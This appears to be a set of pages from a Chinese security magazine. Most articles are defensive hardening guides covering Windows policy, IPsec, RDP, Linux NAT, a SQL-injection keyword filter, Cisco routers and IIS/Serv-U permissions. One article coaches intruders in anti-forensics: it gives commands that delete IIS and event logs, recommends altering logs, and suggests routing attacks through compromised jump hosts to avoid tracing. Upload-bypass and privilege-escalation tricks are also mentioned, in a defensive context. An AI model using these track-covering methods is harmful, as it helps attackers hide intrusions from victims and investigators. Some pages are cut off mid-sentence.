如果你是系统管理员身份，可以指派特定权利给组账户或单个用户账户。在“安全设置”中，定位于“本地策略→用户权利指派”，而后在其右侧的设置视图中，可针对其下的各项策略分别进行安全设置（如图3）。例如，若是希望允许用户获得系统中任何可得到的对象的所有权，包括注册表项、进程和线程以及 NTFS 文件和文件夹对象等，该策略的默认设置仅为管理员。先找到列表中“取得文件或其他对象的所有权”策略，用鼠标右键单击，在弹出菜单中选择“属性”，在此点击“添加用户或组”按钮，在弹出对话框中进行后续配置（如图4），在框中输入对象名称并确认操作即可。

### 三、活用 IP 策略

我们知道，无论是木马、后门，还是漏洞、嗅探，大多都是通过端口作为通道。因此，我们需要关闭那些可能成为入侵通道的端口。你可以上网查询一下相关危险端口的资料，以做到有备而战。下面我们以 Telnet 利用的 23 端口为例来加以说明（笔者的操作系统为 Win XP）。

首先单击“运行”，在框中输入“mmc”后回车，会弹出“控制台1”的窗口。我们依次选择“文件→添加/删除管理单元→在独立标签栏中点击‘添加’→IP 安全策略管理”，最后按提示完成操作。此时，我们已把“IP 安全策略，在本地计算机”（以下简称“IP 安全策略”）添加到“控制台根节点”下（如图5）。

现在双击“IP 安全策略”就可以新建一个管理规则了。右击“IP 安全策略”，在弹出的快捷菜单中选择“创建 IP 安全策略”，打开 IP 安全策略向导（如图6）。

点击“下一步→名称默认为‘新 IP 安全策略’→下一步→不必选择‘激活默认响应规则’”（如图7）。注意：在点击“下一步”的同时，需要确认此时“编辑属性”被选中（如图8）。然后选择“完成”，出现“新 IP 安全策略属性”窗口（如图9）。选择“添加”，然后一直点击“下一步”，不必选择“使用添加向导”选项（如图10）。

在“源地址”的源地址应选择“任何 IP 地址”；目标地址选择“我的 IP 地址”，不必选择镜像。在协议标签栏中，注意类型应为 TCP，并设置 IP 协议端口从任意端口到此端口 23，最后点击“确定”即可。

这时在“IP 筛选器列表”中会出现一个“新 IP 筛选器”，选中它，切换到“筛选器操作”标签栏，依次点击“添加→名称默认为‘新筛选器操作’→添加→阻止→完成”。

新策略需要被激活才能起作用，具体方法是：在“新 IP 安全策略”上点右键，选择“指派”刚才制定的策略（如图11）。现在，当我们从另一台电脑 Telnet 到设防的这一台时，系统会报告登录失败；用扫描工具扫描该主机时，会发现 23 端口仍然在提供服务。以同样的方法，大家可以把其他任何可疑的端口都封杀掉，让不速之客们大叫“不妙”去吧！

### 四、加强密码安全

在“安全设置”中，先定位于“账户策略→密码策略”，在其右侧设置视图中，可酌情进行相应设置，以使我们的系统密码相对安全、不易破解。防破解的一个重要手段就是定期更新密码，大家可据此进行如下设置：鼠标右键单击“密码最长存留期”，在弹出菜单中选择“属性”，在弹出的对话框中，大家可自定义一个密码设置后能够使用的时间长短（限定于 1 至 999 之间）。

此外，通过“本地安全设置”，还可以进行“审核对象访问”设置，跟踪用于访问文件或其他对象的用户账户、登录尝试、系统关闭或重新启动以及类似事件。诸如此类的安全设置，不一而足。大家在实际应用中会逐渐发觉“本地安全设置”的确是一个不可或缺的系统安全工具。

# 服务器远程宿主安全新策略

Laohan213

晚上十点是我们的下班时间，此时办公室就必须关门了。经常做事情做到一半或写程序写到一半，没办法只得停下手中的活回家去了。有时候真的很难马上让脑子安静下来，到睡觉的时候还非常兴奋，甚至难以入眠。于是便使用了许多网管常用的方法——远程登录，在家继续办公。

当配置好服务器时，发现有点不对，很容易招来 hacker 的注意，有可能被攻击，这给网站服务器带来不小的安全隐患，尤其是打开默认远程登录端口。原来睡不着觉是因为事情没有做完，想继续做，让梦想早点实现，现在却变成为服务器的安全担忧而无法入眠了。经过自己和同事（hemon）反复研究，终于得出了一种较好的解决方案。这里向大家介绍一下，希望能够给使用远程终端的读者带来益处。

### 一、服务器端配置

- 1. 修改注册表：打开注册表编辑器，修改  
  `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`  
  将 `PortNumber` 用十进制方式显示，默认为 3389，改为需要使用的新端口，如：213。
- 2. 修改登录端口：可能不同的用户会使用不同的方式进行登录。  
  如果采用微软的远程桌面连接软件进行登录，只需在 IP 地址后面加上“:”和端口号即可，如：`202.101.202.8:213`。  
  如果采用远程桌面 Web 连接，则需要在 tsweb 文件夹中 default.htm 的 `MsRdpClient.AdvancedSettings2.RedirectSmartCards=FALSE` 下面添加：`MsRdpClient.AdvancedSettings2.RDPPort=213`，其中 213 为前面改好的端口号。
- 3. 配置代理服务器：目前有许多代理服务器软件，比较有名的是 WinGate、WinProxy 等。这里使用的是 ccproxy6.0。安装后，设置代理 SOCKS/MMS 端口，如：8080。去除所有其他代理设置。注意：在使用代理端口前，确保没有服务使用此端口（如图1）。
- 4. 修改 TCP/IP 筛选。关闭除代理端口以外的所有其他端口进入，如果本机有对外提供其他服务，则需保留服务端口（如图2）。

好了，到此已经完成所有服务器端的配置了。接下来的就是配置客户端了。

### 二、客户端配置

客户端配置主要是安装配置代理服务器客户端软件。代理服务客户端软件也有很多，读者喜欢哪种或者哪种用得熟一些就选用哪一种吧。这里选用一种叫 ProxyCap 的软件。配置相当简单：在 Proxies 中添加一项代理类型为 socks 的服务，将地址配置为你的服务器地址，端口为代理服务端口即可（如图3所示）。再在规则 Rules 中添加一项规则，将其设为所有程序。当然也可以只设置需要使用的远程连接软件等，可以根据需要而定。按 OK 即大功告成（如图4）。

现在你就可以通过你的远程桌面客户端软件远程登录你的服务器了。如果是远程 Web 连接的用户，不需要输入端口号，直接输入服务器的 IP 就可以访问了（如图5）。

不设置代理是不能访问的。因为我们远程登录的端口只有服务器本身能够访问，因此必须设置客户端软件代理服务器为需要远程登录的服务器。代理端口和远程登录端口都不是公开的。这好比一些编程语言中的类里的 Public 和 Private 属性方法一样，我们配置的服务器远程访问端口是 Private 的端口。

这样配置之后，终于可以高枕无忧了。我也可以放心去睡我的觉了。（本文涉及到的 ProxyCap，见盘有收录）

### 三、总结

爽吧！现在再也不用担心 hacker 的攻击了。如果客户端没有……

# 安全的 Linux 服务器组建：架设全攻略

大家都知道，网络安全这个话题在当今社会是相当流行的，有说不尽的话题。每当一提起网络安全，大家必然想起黑客这个名词。我们尚且不讨论他们是善意还是恶意的，总而言之，他们的目标大多数都是网络上的各个服务器，而且大部分都是提供 Web 的服务器，因为它们暴露目标明显，容易让黑客锁定住。既然这样，做一个安全的服务器显然是必要的。

不过今天我讲的并不是有关服务器漏洞的问题，因为漏洞随时会出现，所以讲漏洞方面的防护是“死”的。而这次我要讲的是如何打造“对外暴露信息最小化”的服务器架设方法。说起服务器，大家首先会想到提供网页服务的 Web 服务，但除了这个服务，还有很多比较重要的服务，例如：提供收发电子邮件功能的邮件服务、提供上传下载的 FTP 服务、提供数据存储的数据库服务等等。

这些都是比较常见的服务。大家如果对这些服务比较了解的话应该知道，每一种服务都存在着大大小小的漏洞，每一种漏洞都有可能导致机器被黑客入侵而且直接得到 root 权限。而且完全有可能在以后出现的新漏洞中有更具杀伤力的破坏。所以说要打造一个安全的网站，在服务器架设方面很有讲究。世界上没有绝对安全的东西，当然，今天我教大家架设服务器的方法也不是绝对安全的，不过相比之下这种方法比普通架设方法要安全得多。架设方法如下：

- 1. **服务器一定要独立做：**
  - 就拿上述提到的各种服务器来说，大家千万不要把各种服务都放在一个服务器里开启。
  - 一定要做成独立的服务器，也就是说，提供 Web 服务功能的单独在一台机器上做，提供 FTP 服务功能的在另一台服务器上做，每台服务器就提供一个服务。
  - 这样做有 2 个好处：  
    1) 可以节省服务器资源，因为每台服务器都干自己的工作；  
    2) 即使某一服务（如 Apache）出现漏洞，入侵影响也被限制在单机，能把损失降到最小。
- 2. **只提供必要的服务：**
  - 但是经过上面的配置还不够，因为每台机器除了提供自己的服务，系统还默认开启了必要的其他服务，并开启了相应端口。
  - 因为这些服务是系统必须开启的，否则系统将不能正常运行。
  - 因此如果要让服务器更安全，仍需继续精简与限制暴露面。

网络中生存，就必须要将有用的服务端口暴露在外，其他的全部屏蔽。这样安全性会在上述基础上进一步提高。那么这就需要一个过滤作用，也就是说，把没用的端口全部屏蔽掉。下面就来看看示例服务器网络（如图1）。

通过示意图大家会发现，这里提供了一个网关。这个网关里分别有两个网卡，eth0 用来连接 Internet，eth1 用来连接内网各服务器。这里所有提供各种服务的服务器地址都是内网 IP，目的主要就是不要把服务器暴露在 Internet 上，而是通过网关做 NAT 映射把服务提供出去。

现在来说说示范性的安全服务架设过程。因为有些服务的设置方法都相似，只不过端口不同，这次毕竟不是教大家如何做服务器，所以就用 Web 服务来演示，大家可以根据不同服务修改端口即可达到目的。

- 测试环境：Vmware5
- 测试系统：RHEL4

### 一、设置网关

- 1. 首先我们在虚拟机里虚拟出 2 块网卡，一个是 eth0，一个是 eth1。虚拟完毕后启动系统，然后经过相关设置。

```bash
[root@router ~]# ifconfig
eth0 ...
eth1 ...
```

- 2. 现在我们来看看路由表：

```bash
[root@router ~]# route -n
Kernel IP routing table
...
```

- 3. 因为这里我们提供了路由转发功能，所以要把 `/etc/sysctl.conf` 里的 `net.ipv4.ip_forward = 0` 改成 `net.ipv4.ip_forward = 1`，这样每次开机就可以自动转发了。
- 4. 好了，网关的初步设置到此。现在来设置 Web 服务器。

### 二、设置内网 Web 服务器

- 1. 跟网关一样，先设置好 IP，结果如下：

```bash
[root@www ~]# ifconfig
...
```

```bash
eth0
Link encap:Ethernet
HWaddr ...
inet addr:192.168.0.2 ...
```

- 2. 然后把 Name Server IP 指向网关的内网地址：

```bash
[root@www ~]# more /etc/resolv.conf
nameserver 192.168.0.1
```

- 3. 目前 Web 服务器的网络设置也完成了，现在来开启 Web 服务。
- 4. 首先建立一个内容为“hello”的网页：

```bash
[root@www ~]# cd /var/www/html/
[root@www html]# ls
index.html
```

- 5. 然后开启 Apache 服务：`service httpd start`。
- 6. 现在我们在别的机器上测试一下是否能正常访问，输入外网 IP 后发现不能访问 Web 服务（尚未做映射，如图2）。

### 三、在网关上做 NAT 映射

现在我们就开始用 iptables 语句来做 NAT 映射，目的是让外界能够访问我们内网的 Web 服务器。这里不逐条解释 iptables 语句，而是给出一个简单脚本来实现映射。

- 1. 编辑脚本：`[root@router ~]# vi test.sh`，脚本如下：

```bash
#!/bin/bash
...
```

- 2. 其实关键语句就是最后两条：一条是把内网 IP 伪装成外网的，这样就可以达到让内网 Web 服务对外提供的效果；第二条语句就是允许外网任何机器访问我们内网 Web 服务器的 80 端口……

```bash
[root@router ~]# chmod +x test.sh
[root@router ~]# ./test.sh
```

- 3. 好了，NAT 映射现在也简单做完了。如果大家还提供了 FTP 服务，可以根据上面的脚本加上限制，允许 20 及 21 端口访问即可。

### 四、最后的测试

现在网关和 Web 服务器都设置好了，我们就可以测试一下，通过外网地址是否可以正确访问我们内网的 Web 服务……

在做这种内网突破外网的技术中，有几点需要大家注意：

- 1. 在内网服务器里一定不要忘记在 `resolv.conf` 里把 IP 指向网关的内网地址。
- 2. 一定要记住把 `sysctl.conf` 里面的 `net.ipv4.ip_forward = 0` 改成 `net.ipv4.ip_forward = 1`，否则将不能转发。

OK，打造安全 Linux 服务器组的过程我就讲到这里，希望对 Linux 有兴趣的朋友可以举一反三多加练习。如有问题请联系我 QQ：15052570。

# 堡垒无痕——让你的入侵不留痕迹

六翼炽天使

常看到很多教大家入侵的文章，但关于怎样反追踪的文章却很少，所以今天我就来讲一讲如何防止自己的入侵被发现。相对封闭的计算机网络区域内安装检测模块，并充分利用网络入侵检测和数据指纹技术，准确度很高。

### 追踪技术

所谓知己知彼，百战不殆。在讲怎样反追踪之前，让我们先来看一看追踪技术是怎样进行的。

### 一、手动追踪技术

这种技术手段主要是利用现有的网络线索和现有的网络工具对黑客行为进行反查，主要目标是追踪到员工记录的真正 IP 地址，从而确定网络攻击源，故又称被动追踪技术。

正如我们所知，每台上网计算机都有一个 IP 地址，一般来讲，这个地址是唯一的……追踪者通过该记录就可以进一步确定攻击源。

### 二、利用追踪监控软件

由于被动追踪的精确度要依赖于现有的系统日志详细程度……在这种情况下，就要利用一些已经安装好的追踪监控软件，详细记录入侵者的攻击行为。

### 三、追踪 ID

以上两种是追查 IP 的技术，但很多时候 IP 地址是无法追踪的，这时候就要采用一种新手段，即 ID 追踪技术。这里 ID 指用户上网的一种身份，比如邮箱号、QQ 号、网站用户名等等。

相比之下，ID 比 IP 更能表明上网者身份……只要与相关公司联系并取得注册信息及好友信息，就能较容易找到本人。

### 反追踪

好了，追踪技术大致就是这些了，现在进入正题——反追踪。

### 一、清除日志

很多人都采用以下命令来删除日志：

```bash
del c:\winnt\system32\logfiles\w3svc1\*.* /f /q
del c:\winnt\system32\logfiles\w3svc2\*.* /f /q
del c:\winnt\system32\config\*.evt /f /q
del c:\winnt\system32\dtc\*.* /f /q
del c:\winnt\x*.log /f /q
del c:\winnt\*.log /f /q
```

如果你也采用这种方法，那么你就要注意了！首先要说的是，用这种方法来删除日志是可以通过 EasyRecovery 或 FinalData NT 来恢复的……

# 安全第一

应该做的是修改日志，而非删除日志；其次，该方法只删除了 Windows 系统日志，如果被攻击方还使用了其他网络防火墙，那么你的 IP 还是有可能被记录在里面。因此，针对这一点，我建议应该用一台我们很了解的肉鸡作为跳板来进行攻击，并删除我们在上面留下的 IP 地址及修改该系统上的日志文件。

### 二、用代理就一定安全了吗？

很多人认为使用代理，就可以不被记录真实的 IP 了，但今天我要告诉你，这是一个完全错误的观点，我们用 ASP 就能很容易得知你的真实 IP。

一般地，我们都用 `Request.ServerVariables("REMOTE_ADDR")` 来获得客户的 IP。这时候，如果我们用代理上网，那么它就只能获得我们的代理 IP，但有些人还不知道在 ASP 中有一个未公开的 `Request.ServerVariables("HTTP_X_FORWARDED_FOR")` 来透过代理服务器读取真实的 IP（注意，如果客户端没有通过代理服务器来访问，那么它取得的地址将为空）。

### 三、压制自己的虚荣心

在文章的开头我们说了，很多技术很高的黑客不是败在技术上，而是输给了自己的虚荣心，因此，压制自己的虚荣心是很重要的。

### 后记

我们前边已经讲过了，我们通过拨号上网的 IP 是被运营商记录了的，但是，由于运营商出于自己利益的考虑，往往这些数据只保留很短的一段时间，这就导致了追踪过程的中断。同时，对于一个完美入侵的追踪成本是很大的，而且还不一定能够追踪成功，因此，对于很多小型的无破坏性的入侵，许多大的网站往往是睁一只眼闭一只眼。所以，只要我们不做违法的事，再注意我们今天讲的内容，那么有人想要找到你入侵的痕迹就很困难了。

# Web 环境下 SQL 注入攻击的检测与防御

摘要

本文简要介绍了 SQL 注入式攻击的原理。在前人提出的“对用户输入信息实施过滤”的技术基础上，建立了一个针对 SQL 注入攻击的检测/防御/备案通用模型。该模型在客户端和服务器端设置两级检查。对于一般性用户误操作和低等级恶意攻击，客户端的检查将自动做出反应；考虑到客户端检查有可能被有经验的攻击者绕开，特在服务器端设定二级检查。在文中还提出了对高等级恶意攻击的自动备案技术，并给出了相应代码。

由于 SQL 注入攻击利用的是 SQL 语法，使得这种攻击具有广泛性。理论上说，对于所有基于 SQL 语言标准的数据库软件都适用，包括 MS SQL Server、Oracle、DB2、Sybase、MySQL 等。当然，各种软件有它们的特点，最终的攻击代码可能不同。SQL 注入攻击的原理相对简单，易于掌握和实施，并且整个 Internet 上连接存放用户惊人信息的数据库系统，在过去的几年里，SQL 攻击的数量一直在增长。

**关键词：** 系统安全；SQL Server；SQL 注入攻击；IDS 检测；DDL 模型

互联网中的安全问题越来越严重，入侵检测（IDS）也因而显得尤为必要。MS SQL Server 作为数据库市场的主要产品之一，研究针对它的 SQL 攻击处理方案，建立一个通用的 SQL 注入攻击防御、检测、备案模型，对于加强安全建设具有积极的意义。

### SQL 注入攻击简介

SQL 注入攻击源于英文“SQL Injection Attack”。目前还没有看到一种标准的定义，常见的是对这种攻击形式、特点的描述。微软技术中心从 2 个方面进行了描述：

- 脚本注入式的攻击。
- 恶意用户输入用来影响被执行的 SQL 脚本。

### SQL 注入式攻击的检测及防范

### 1. SQL 攻击检测/防御/跟踪模型

针对 SQL 攻击的防御，前人做过大量的工作，提出的解决方案包括：

- 封装客户端提交信息。
- 替换或删除敏感字符/字符串。
- 屏蔽出错信息。
- 在服务端正式处理之前对提交数据的合法性进行检查等进行关键性的处理操作。

方案（4）与（2）的区别在于，方案（4）一旦检测到敏感字符/字符串，针对数据库的操作即行中止，而方案（2）是对有问题的客户端输入做出补救，不中止程序后续操作。方案（2）虽然在一定程度上有效，但有“治标不治本”的嫌疑……

因此，本文中针对 SQL 注入攻击的检测/防御/备案模型即基于提交信息的合法性检查，在客户端和服务端进行两级检查……技术上，客户端的检查是有可能被有经验的攻击者绕开的。

```vb
Myfilter=binFlag
end function

function check()
    // 这个函数的作用是调用 Myfilter 函数对提交的参数进行检查
    dim Uname,UPwd
    Uname=Trim(document.Thisform.Username.value)
    UPwd=Trim(document.Thisform.UserPwd.value)
    if Myfilter(Uname) or Myfilter(UPwd) then
        Alert("提交的用户名或者密码中含有非法字符！")
        Exit function
    else
        document.Thisform.submit
    end if
end function
```

图 3

前两项可利用函数值按序列到，敏感字符过滤则需要应用开发方做相应开发。


图 1

```vb
conn.execute strAdd
else
    strUpdate="Update IP_Attack Set Times='" & Rs.Fields("Times")+1 & "', LastAttack='" & now() & "' where ip='" & userip & "'"
    conn.execute strUpdate
end if

rs.close
conn.close
set rs=nothing
set conn=nothing

Response.Redirect "Err.asp"   // 关闭连接，资源释放
```

图 4

在经过一级检查以后提交到服务器端的信息中仍然包括非法字符/字符串时，唯一的可能是攻击者绕开了客户端的一级检查。对于这种危险的信号，服务器端将从收到的提交信息数据包中提取攻击源的 IP 地址，存入数据库备案，同时中止针对数据库的操作。

在这种情况下，提交的数据被直接发往服务器端，通过在服务器端设定二级检查就显得十分必要。由于正常提交到服务端的数据已经在客户端检查过，因此，服务端检查到的提交异常基本可以认定为恶意攻击行为所致，中止提交信息的处理，进行攻击备案，并对客户端给出出错/警告提示。对应模型简图如图 1 所示。

对提交信息的检查，主要包括数据类型检查、数据长度检查和敏感字符过滤，如图 2。

> SQL 注入攻击敏感的字符/关键词包括：“exec”“xp_”“sp_”“declare”“Union”“cmd”“+”“'”“//”“-”“;”“%”“0x”等，而它们又不是在一般构造 query 语句时必须出现的内容。

图 2

经过总结，这些敏感字符在对话语句中并非必须用到，因此可以针对这些敏感字符设定过滤函数，再把这些上传的参数结合到查询语句之前对它们进行过滤。下面的 2 个函数即过滤模块的主要代码，如图 3 和图 4。

### 三、跟踪

提交非法字符的人，都有可能是 SQL 注入攻击者。但考虑到用户在正常使用中的误操作也有提交非法字符/字符串的可能，因此客户端的一级检查无论对用户误操作，还是一般性攻击，所做出处理措施也只是中止信息提交，给出友好的出错提示。

### 四、结语

由于 SQL 注入攻击针对的是应用开发过程中的编程不严密，因而对于绝大多数防护来说，这种攻击是“合法”的。问题的解决只有依赖于完善编程。专门针对 SQL 注入攻击的工具较少……本文中的 DDL 模型作为一个整体解决方案，对代码稍加变动也可用于 SQL Server 以外的关系数据库。

# 安全第一


路由器是网络中的神经中枢，在网络中占据着主要地位。随着企业网络扩展，可靠性与安全性需求提升，路由器安全已成为热门话题。本文结合 Cisco 3640 说明路由配置中需要注意的要点，供 CCNA 学习者参考。


图注：**图1**

首先把路由器设置强口令。进入配置模式后设置 `enable secret` 与 `enable password`，其中 secret 更安全。

```bash
Cisco-3640#configure terminal
Enter configuration commands, one per line. End with CNTL/Z.
Cisco-3640(config)#enable secret hackerxfiles
Cisco-3640(config)#enable password destiny
```

配置 console 与 vty 登录密码，指定连接超时时间 30 秒。

```bash
Cisco-3640(config)#line console 0
Cisco-3640(config-line)#password cisco
Cisco-3640(config-line)#login
Cisco-3640(config-line)#exit
Cisco-3640(config)#line vty 0 4
Cisco-3640(config-line)#password hackbase
Cisco-3640(config-line)#login
Cisco-3640(config-line)#exec-timeout 0 30
```

```bash
Cisco-3640(config)#line console 0
Cisco-3640(config-line)#exec-timeout 0 30
```

虽然 secret 设置完成，但其他明文密码仍可在配置文件中看到（`show running-config`）。


图注：**图2**

解决方法：启用 `service password-encryption`，并关闭不必要服务（如 CDP、HTTP、DNS 等，具体依 IOS 版本而定）。

```bash
Cisco-3640(config)#no cdp run
Cisco-3640(config)#no ip http server
Cisco-3640(config)#no ip domain-lookup
```

仅允许管理地址访问设备：管理员 IP 为 `172.16.1.254` 与 `10.1.2.254`，通过访问列表限制 telnet。

```bash
Cisco-3640(config)#access-list 1 permit 10.1.2.254
Cisco-3640(config)#access-list 1 permit 172.16.1.254
Cisco-3640(config)#line vty 0 4
Cisco-3640(config-line)#access-class 1 in
```

也可通过 ACL 禁止未授权用户访问特定网络资源。

```bash
Cisco-3640(config)#access-list 2 permit 10.1.2.254
```

```bash
Cisco-3640(config)#access-list 2 permit 10.1.2.253
Cisco-3640(config)#access-list 2 permit 10.1.2.252
Cisco-3640(config)#interface FastEthernet0/0
Cisco-3640(config-if)#ip access-group 2 in
```

为避免管理员设备接入网管网络，可在交换机端口绑定 MAC，违规即关闭端口。

```bash
Center-Switch01(config-if)#port security mac-count 1
Center-Switch01(config-if)#port security action shutdown
```

还可在接口绑定 MAC、结合 VLAN 过滤；同时应定期备份路由配置文件，避免被篡改或丢失。本文为路由安全实践要点概述。

# 黑客当心！

### 分析盗用 ADSL 宽带充值问题

如今，使用 ADSL 接入互联网的用户越来越多，而大部分用户对于网络安全知识过于淡薄，甚至只是懂得使用杀毒软件简单查杀病毒而已，这样就给黑客大开方便之门，导致带来直接的经济损失。

记得大约两年前的某天，网络中出现了名为“利用互联星空刷 QQ 币”的动画，不到几天，总下载量过 10 万。从那以后，用 ADSL 刷 Q 币、QQ 服务等，便成了网络中最热门的话题。随着网络技术发展，扩展到了电影包月、网络游戏充值、腾讯直充等各种服务。

前几天，一位朋友用 QQ 给我发消息说，他盗用别人的 ADSL 宽带帐号，给自己的 QQ 充了 100 个 Q 币，十几天后，警察叔叔就请他坐了班房。事后我仔细想了想，不管他说的是真是假，这样的事也可能发生在我们身上，在这里分析一下过程。

- 黑客盗用别人的宽带帐号，充值了 1000 元；
- 该用户去电信公司核实，因盗号的消费 1000 元并索要详单；
- 用户说自己没有使用互联星空进行消费，要求调查；
- 电信根据记录查到该号码所登录时的真实 IP 地址；
- 运营商由 IP 地址对应到较准确的物理位置；
- 最后，警察叔叔就来敲门。

不管你是否充值 QQ，或者其他服务，你总是要用充值帐号登录网络，所以你是不可能达到完全隐藏 IP 地址的目的。以上说的，绝对不是危言耸听，而是劝告大家少用别人的 ADSL 宽带帐号进行非法充值，以免给自己带来一些法律问题。

### 一、互联星空消费安全问题

最初，用 ADSL 消费只需要密码验证，而当时有些 ADSL 路由存在默认密码漏洞，且许多用户不懂修改，黑客可利用代理和默认密码得到帐号密码进行消费。后来加入了强制 IP 认证，但仍难不倒黑客，依旧可利用工具、代理、登录互联星空进行非法消费。

### 二、问题出现了

问题一，为什么所有的电信 ADSL 宽带帐号，在互联星空上的消费帐号都是默认打开的；问题二，为什么不加强消费时的验证方式；问题三，为什么对 HTTP 代理做了限制却不完全堵住代理访问。文中认为这些都与消费利益相关，并指出黑客可能长期盗刷用户帐号。

如果一个城市有 10 万人是电信 ADSL 用户，其中相当一部分用户安全意识薄弱，那么被盗用宽带帐号进行充值的概率会非常高。按每个帐号消费估算，损失规模可观，黑客通过互联星空刷费会形成长期收益。

### 三、小结

本文目的在于提醒大家：盗用别人宽带帐号进行充值消费是违法的，应该杜绝，以免惹祸上身。许多网络“挂机者”背后都可能是盗用 ADSL 充值。做任何事之前都要仔细想后果，以免给自己带来麻烦。

### 四、帐号安全

除了 administrator 外，禁用其他账户并重命名为中文名，为 Guest 设置复杂密码。通过“本地安全策略→本地策略→安全选项”修改账户相关配置。


图5

### 五、经验之谈

- 及时安装 Windows 最新补丁和 IE 补丁；
- 不用 IE 浏览器，改用其他浏览器（如 Maxthon）；
- 安装杀毒软件并随时升级；
- 安装网络防火墙，限制 explorer.exe / IEXPLORE.EXE 等联网，防止木马注入；
- 全部搞定后用 Ghost 备份系统。

写这篇文章是希望大家在进行相关操作时也注意自身安全。文中涉及到的工具和脚本（如 delshare.bat、delshare.reg、iprule.dat、Windows 无用服务列表）已收录于光盘。

# 安全第一


注入漏洞、上传漏洞、弱口令等问题随处可见。跨站攻击、远程控制等是老话题。部分虚拟主机管理员为图方便或配置不当，将站点目录权限设得过高，甚至把 Internet 来宾账号加入 Administrators 组，造成严重安全隐患。本文以站点 `cert.ecjtu.jx.cn` 为例说明常见配置问题。

### 建立 Windows 用户

为每个网站单独建立 Windows 用户账号（如 `cert`），删除其 User 组并加入 Guest 用户组；账号设置复杂密码，避免“用户不能更改密码”“密码永不过期”等弱配置。


### 设置文件夹权限

### 1．设置非站点相关目录权限

Windows 安装后很多目录默认 everyone 可浏览、查看甚至修改，这会带来隐患。应限制入侵者常利用目录的权限。

```
C:\
D:\
C:\perl
C:\temp\
C:\Mysql\
C:\php\
C:\autorun.inf
C:\Documents and Settings\
C:\Documents and Settings\All Users\「开始」菜单\程序\
C:\Documents and Settings\All Users\「开始」菜单\程序\启动
C:\Documents and Settings\All Users\Documents\
C:\Documents and Settings\All Users\Application Data\Symantec\
C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere
C:\WINNT\system32\config\
C:\winnt\system32\inetsrv\data\
C:\WINDOWS\system32\inetsrv\data\
C:\Program Files\
C:\Program Files\Serv-U\
C:\Program Files\KV2004\
C:\Program Files\Rising\RAV
C:\Program Files\RealServer\
C:\Program Files\Microsoft SQL Server\
C:\Program Files\Java Web Start\
```

以上目录或文件应做适当限制，如取消 Guests 用户的查看、修改和执行权限。

### 2．设置站点相关目录权限

（1）设置站点根目录权限：站点目录（如 `D:\cert`）可设置 Administrators 完全控制，站点用户保留读取及运行、列出文件夹目录、读取权限，取消其他用户权限。

（2）设置可更新文件权限：为需更新的目录（如 `uploads`、`data`、`database`）单独赋予可写/可改权限，避免整站目录过度开放。


### 正确配置 IIS

IIS 的基础配置应尽量最小权限化。目录权限通常保留读取即可；写入、目录浏览等应按需开启，能关闭的功能尽量关闭，减少攻击面。

# 安全第一

要的信息。这将为黑客入侵带来不便。其余保留默认就可以了，如图4。


- 2．应用程序配置：在站点属性中，“主目录”这一项中还有一个“配置”选项，点击进入以后，如图5所示。在“应用程序映射”选项中可以看到，默认有许多应用程序映射。将需要的保留，不需要的全部都删除。在入侵过程中，很多程序可能限制了 asp、php 等文件上传，但并不对应 cer、asa 等文件进行限制，如果未将对应的应用程序映射删除，则可以将 asp 的后缀名改为 cer 或者 asa 后进行上传，木马将可以正常被解析。这也往往被管理员所忽视。另外添加一个应用程序扩展名映射，可执行文件可以任意选择，后缀名为 .mdb，如图6。这是为了防止后缀名为 mdb 的用户数据库被下载。


- 3．目录安全性设置：在站点属性中选择“目录安全性”，点击“匿名访问和验证控制”，选择“允许匿名访问”，点击“编辑”，如图7所示。删除默认用户，浏览选择对应于前面为 cert 网站设定的用户，并输入密码。可以选中“允许 IIS 控制密码”。这样设定的目的是为了防止一些像站长助手、海阳等木马的跨目录跨站点浏览，可以有效阻止这类跨目录跨站入侵。


- 4．可写目录执行权限设置：关闭所有可写目录的执行权限。由于程序方面的漏洞，目前非常流行上传一些网页木马，绝大部分都是用 Web 进行上传的。由于不可写的目录木马不能进行上传，如果关闭了可写目录的执行权限，那么上传的木马将不能正常运行。可以有效防止这类形式的 Web 入侵，如图8。


- 5．处理运行错误：这里有两种方法，一是关闭错误回显，IIS 属性 -> 主目录 -> 配置 -> 应用程序调试 -> 脚本错误消息，选择“发送文本错误信息给客户”，如图9。二是定制错误页面，在 IIS 属性 -> 自定义错误信息，在 HTTP 错误信息中双击需要定制的错误页面，将弹出错误映射属性设置框。消息类型有默认值、URL 和文件三种，可以根据情况自定义定制，如图10。这样一方面可以隐藏一些错误信息，另一方面也可以使错误显示更加友好。

## 九、配置FTP

FTP 是绝大部分虚拟主机提供商必备的一项服务。用户的站内文件大部分都是使用 FTP 进行上传的。目前使用最多的 FTP 服务器非 Serv-U 莫属了，这里有几点需要说明一下。


### 1．更改管理员密码

我想大多数入侵者对于 Serv-U 提权再熟悉不过了。这些提权工具使用的就是 Serv-U 默认的管理员账号和密码运行的。因为 Serv-U 管理员是以超级管理员的身份运行的。如果没有更改管理员密码，这些工具使用起来就再好用不过了。如果更改了密码，那么这些工具要想正常运行，就没那么简单了，得先破解管理员密码才行。

### 2．更改安装目录权限

Serv-U 的默认安装目录都是 everyone 可以浏览甚至可以修改的。安装的时候如果选择将用户信息存储在 ini 文件中，则可以在 ServUDaemon.ini 得到用户的所有信息。如果 Guests 有修改权限，那么黑客就可以顺利建立具有超级权限的用户，这可不是一件好事。所以在安装好 Serv-U 之后，得修改相应的文件夹权限，可以取消 Guests 用户的相应权限。

## 五、命令行相关操作小结

### 1. 禁止 Guests 用户执行 cmd.exe

```bash
cacls C:\WINNT\system32\cmd.exe /e /d guests
```

### 2. 禁用 WScript.Shell 组件

WScript.Shell 可以调用系统内核运行 DOS 基本命令。可以通过修改注册表，将此组件改名，来防止此类木马的危害。`HKEY_CLASSES_ROOT\WScript.Shell` 及 `HKEY_CLASSES_ROOT\WScript.Shell.1\` 改名为其它名字；将两项 CLSID 的值也改一下，`HKEY_CLASSES_ROOT\WScript.Shell\CLSID\` 项目的值和 `HKEY_CLASSES_ROOT\WScript.Shell.1\CLSID\` 项目的值，也可以删除。

### 3. 禁用 Shell.Application 组件

